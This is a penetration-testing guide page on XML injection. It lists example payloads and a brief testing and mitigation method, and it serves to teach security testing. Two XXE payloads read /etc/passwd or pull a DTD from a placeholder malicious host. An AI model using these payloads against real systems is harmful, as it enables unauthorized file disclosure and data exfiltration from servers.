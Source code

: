 ```yaml
---
description: >-
  XML Injection occurs when an attacker inserts malicious XML content into an
  application that processes XML data
---
```


# XML Injection

## What is XML Injection?

XML Injection occurs when an attacker inserts malicious XML content into an application that processes XML data. This can exploit vulnerabilities in how the application parses or processes the XML input. XML Injection can lead to unauthorized data access, data manipulation, or denial of service attacks.

## Example Tests for XML Injection

When performing a penetration test, you can use various payloads to test for XML injection vulnerabilities. Below are some example commands and payloads that can be used to test if an application is vulnerable to XML injection.

### **Example Payloads for XML Injection**

1.  **Basic XML Injection**

    ```xml
    <user><name>John</name><age>30</age></user>
    ```
2.  **Entity Injection**

    ```xml
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
    <user><name>&xxe;</name></user>
    ```
3.  **External Entity Injection**

    ```xml
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://malicious-site.com/evil.dtd">]>
    <user><name>&xxe;</name></user>
    ```
4.  **Comment Injection**

    ```xml
    <user><name><!-- --></name></user>
    ```
5.  **Attribute Injection**

    ```xml
    <user name="John" age="30" role="admin"></user>
    ```

## Testing Methodology

1. **Injecting Payloads**:
   * Identify fields in the application where you can input data that will be processed as XML.
   * Input the example payloads into these fields.
2. **Data Interception and Analysis**:
   * Intercept the XML data being sent to the server using tools like Burp Suite or OWASP ZAP.
   * Modify the intercepted data with the payloads to test for injection vulnerabilities.
3. **Observation and Mitigation**:
   * Observe the application's response to the injected XML data to detect any unauthorized actions or errors.
   * Recommend proper input validation, output encoding, and the use of secure XML parsers to prevent such injections.

